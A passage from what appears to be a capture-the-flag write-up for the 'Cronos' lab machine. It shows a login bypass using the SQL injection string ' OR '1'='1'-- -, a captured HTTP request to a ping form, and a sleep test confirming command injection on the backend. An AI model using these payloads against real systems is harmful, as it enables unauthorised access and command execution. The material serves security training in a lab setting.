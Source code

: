 Nothing.

## admin.cronos.htb

![image.png]({{ site.baseurl }}/assets/cronos/image%202.png)

A login page. Default credentials admin:admin did not work. Let’s try simple SQLi:

```bash
' OR '1'='1'-- -
```

![image.png]({{ site.baseurl }}/assets/cronos/image%203.png)

We are in.

We have the option to traceroute and ping:

![image.png]({{ site.baseurl }}/assets/cronos/image%204.png)

![image.png]({{ site.baseurl }}/assets/cronos/image%205.png)

Seems like it’s executing a command on the backend. Checking the request on Burp, we see the command:

```bash
POST /welcome.php HTTP/1.1
Host: admin.cronos.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: http://admin.cronos.htb
Connection: keep-alive
Referer: http://admin.cronos.htb/welcome.php
Cookie: PHPSESSID=fq5nuiso7qt4he68j84bgepj01
Upgrade-Insecure-Requests: 1
Priority: u=0, i

command=ping+-c+1&host=8.8.8.8
```

Maybe we have command injection. Let’s try some commands to make sure:

```bash
command=sleep&host=3

#Response
#The server took around 3 seconds to respond.
```

```bash
POST /welcome.php HTTP/1.1
Host: admin.cronos.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://admin.cronos.htb
Connection: keep-alive
Referer: http://admin.cronos.htb/welcome.php
Cookie: PHPSESSID=fq5nuiso7qt4he68j84bgepj01
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```